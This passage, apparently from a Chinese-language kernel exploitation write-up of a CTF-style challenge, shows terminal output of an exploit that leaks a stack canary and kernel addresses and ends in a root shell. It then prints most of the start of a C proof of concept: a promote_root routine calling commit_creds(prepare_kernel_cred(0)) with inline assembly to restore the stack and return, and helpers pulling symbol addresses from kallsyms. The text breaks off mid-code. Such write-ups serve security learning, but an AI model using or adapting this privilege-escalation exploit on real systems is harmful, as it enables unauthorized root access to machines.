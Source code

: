 ```bash
/ $ ./exp
61778bf81adb4f00 00007ffe3cd5d8c0 ffffffffc015719b ffff96d51f994b40 ffffffff853dd6d1 000000000000889b ffff96d517f83400 ffffffff8538ecfa 0000000000000026 0000000000000000 0000000000000000 
get canay is:61778bf81adb4f00
commit_cred:ffffffff8529c8e0
prepare_kernel_cred:ffffffff8529cce0
promote_root:0000558770bc62a9
name_payload_len:88
/ # id
uid=0(root) gid=0(root)
/ # 
```

完整的poc如下：

```c
#include<stdio.h>
#include<stdlib.h>
#include<fcntl.h>
#include<string.h>
#include<unistd.h>

unsigned long long commit_cred_addr;
unsigned long long prepare_kernel_cred_addr;
unsigned long long ret_addr;


void promote_root()
{

    int (*commit_cred)(struct cred *new);
    struct cred *(*prepare_kernel_cred)(struct task_struct *daemon);

    commit_cred = commit_cred_addr;
    prepare_kernel_cred =  prepare_kernel_cred_addr;
    (*commit_cred)((*prepare_kernel_cred)(0));

    asm("mov %rbp,%rsp");    //修复栈帧
    asm("pop %rbp");
    asm("mov %0,%%rax;\
        jmp %%rax;"
        :
        :"r"(ret_addr)
        :"%rax");

}

unsigned long long get_kernel_func_addr(char* cmd)
{
    char buf[64];
    memset(buf,0,sizeof(buf));
    FILE *fp = popen(cmd,"r");
    fgets(buf,sizeof(buf),fp);
    return strtoul(buf,NULL,16);
}
unsigned long long get_commit_cred_addr()
{
    char *cmd="cat /tmp/kallsyms |grep commit_cred|awk '{print $1}'";
    return get_kernel_func_addr(cmd);
}
unsigned long long get_prepare_kernel_cred_addr()
{
    char *cmd="cat /tmp/kallsyms |grep prepare_kernel_cred|awk '{print $1}'";
    return get_kernel_func_addr(cmd);
```